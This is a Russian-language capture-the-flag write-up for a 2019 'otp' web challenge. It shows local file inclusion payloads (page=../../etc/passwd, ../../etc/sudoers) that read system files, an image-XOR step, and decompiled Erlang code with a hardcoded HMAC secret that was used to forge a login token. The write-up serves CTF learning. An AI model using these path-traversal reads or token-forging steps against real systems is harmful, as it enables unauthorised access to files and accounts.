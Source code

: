 1. Первое что смутило - `index.php?page=login.php`, что очень похоже на include().
Проверили на LFI `http://otp.ctf2019.rocks/index.php?page=../../etc/passwd` n получили первый доп, ура! :)

2. Второе что вызвало подозрение - картинка, которая отрисовается при ошибке:
http://otp.ctf2019.rocks/1st_part.png
 Просто от балды попробовали имена 2nd_part.png, 3rd_part.png, 4th_part.png и тд (нашлась только вторая).
 В stegsolve наложили вторую картинку на первую xor'м и получили второй доп.

3. В http://otp.ctf2019.rocks/index.php?page=../../etc/sudoers увидели, что
 otp запускает приложение-чекалку на Erlang, скачали otp.beam. 
 Помучались с подбором версии эрланга для декомпиляции (использовали utility.erl для декомпиляции), поняли как работает
  чекалка, переписали на вывод в stdout переменной Otp. Через repl код 
  выдавал почему-то невалидный токен, пришлось компилировать код. 
  
```
┌─[16:25][p-mihadyuk][~]
└╼ cat a.erl
-module(a).

-export([genotp/0]).


genotp() ->
    inets:start(),
    crypto:start(),
    {ok, {_, _, Body}} =
        httpc:request("http://worldclockapi.com/api/json/utc/now"),
    Time = hd(tl(tl(string:tokens(hd(lists:filter(fun
                                (Val) ->
                                string:str(Val,
                                       "currentDateTime")
                                  > 0
                              end,
                              string:tokens(Body, ","))),
                      "\"")))),
    Otp =
        string:slice(base64:encode_to_string(crypto:hmac(sha256,
                                 "oow7aFoh3hoh1cichen5kahd1yeuhohpiegh8loozuHoo"
                                 "s2quucaix4aaruogagh6aeW0s",
                                 Time)),
                 0, 4),
    io:fwrite(Otp).
```

```
┌─[16:25][p-mihadyuk][~]
└╼ ~/Library/Application\ Support/ErlangInstaller/21.0/bin/erl -noshell -run a genotp -run init stop
rsF9
```
Токен получили, авторизовались - получили основной флаг.
 


